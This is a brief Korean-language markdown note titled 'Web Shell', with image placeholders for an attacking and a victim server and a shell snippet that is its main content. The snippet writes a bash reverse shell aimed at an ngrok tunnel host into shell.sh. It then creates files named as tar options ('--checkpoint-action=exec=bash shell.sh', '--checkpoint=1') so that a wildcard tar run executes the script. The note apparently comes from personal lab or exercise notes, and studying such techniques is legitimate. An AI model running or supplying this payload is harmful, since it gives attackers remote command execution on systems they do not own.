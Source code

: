 
# Web Shell

---

##### 공격 서버

![alt text](image-7.png)

##### 공격 당하는 서버

![alt text](image-8.png)

---

```sh
echo "bash -c 'sh -i >& /dev/tcp/0.tcp.jp.ngrok.io/16142 0>&1'" >> shell.sh
echo "" > "--checkpoint-action=exec=bash shell.sh"
echo "" > --checkpoint=1

# Trigger!!
```

---

